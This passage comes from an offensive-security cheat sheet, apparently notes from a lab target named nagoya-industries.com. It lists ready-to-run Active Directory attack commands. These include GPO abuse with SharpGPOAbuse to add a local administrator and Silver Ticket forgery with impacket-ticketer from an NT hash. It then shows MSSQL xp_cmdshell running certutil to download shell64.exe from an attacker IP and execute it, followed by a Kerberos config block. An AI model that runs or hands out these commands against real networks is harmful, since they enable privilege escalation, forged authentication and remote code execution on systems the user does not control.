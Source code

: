 ### GPOs

```jsx
Get-DomainGPOLocalGroup | select GPODisplayName, GroupName, GPOType
```

![Untitled](Cheat%20sheet%20b2ec1956b01746ed807a1363890b898f/Untitled.png)

[SharpGPOAbuse/SharpGPOAbuse-master at main · byronkg/SharpGPOAbuse](https://github.com/byronkg/SharpGPOAbuse/tree/main/SharpGPOAbuse-master)

```jsx
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "DEFAULT DOMAIN POLICY"
gpupdate /force
# check if added to admin
net localgroup administrators
```

### Silver Ticket

```jsx
1. Get nthash -> https://codebeautify.org/ntlm-hash-generator // To translate cleartext to NTLM
2. Get domain-sid + domain -> (powershell) Get-ADdomain // DomainSID + Forest (fields)
3. Get spn -> (powershell) Get-ADUser -Filter {SamAccountName -eq "svc_mssql"} -Properties ServicePrincipalNames //ServicePrincipalNames (field)

impacket-ticketer -nthash E3A0168BC21CFB88B95C954A5B18F57C -domain-sid S-1-5-21-1969309164-1513403977-1686805993 -domain nagoya-industries.com -spn MSSQL/nagoya.nagoya-industries.com -user-id 500 Administrator
export KRB5CCNAME=$PWD/Administrator.ccache
// Add to /etc/krb5user.conf -> one box below
// Add to /etc/hosts -> one box below
impacket-mssqlclient -k nagoya.nagoya-industries.com 
enable_xp_cmdshell
xp_cmdshell whoami
xp_cmdshell "certutil -URLCache -split -f http://192.168.45.171/payload/shell64.exe \Windows\Temp\shell64.exe"
xp_cmdshell "\Windows\Temp\shell64.exe"

```

```jsx
[libdefaults]
	default_realm = NAGOYA-INDUSTRIES.COM
	kdc_timesync = 1
	ccache_type = 4
	forwardable = true
	proxiable = true
    rdns = false
    dns_canonicalize_hostname = false
	fcc-mit-ticketflags = true

[realms]	
	NAGOYA-INDUSTRIES.COM = {
		kdc = nagoya.nagoya-industries.com
	}

[domain_realm]
	.nagoya-industries.com = NAGOYA-INDUSTRIES.COM
```
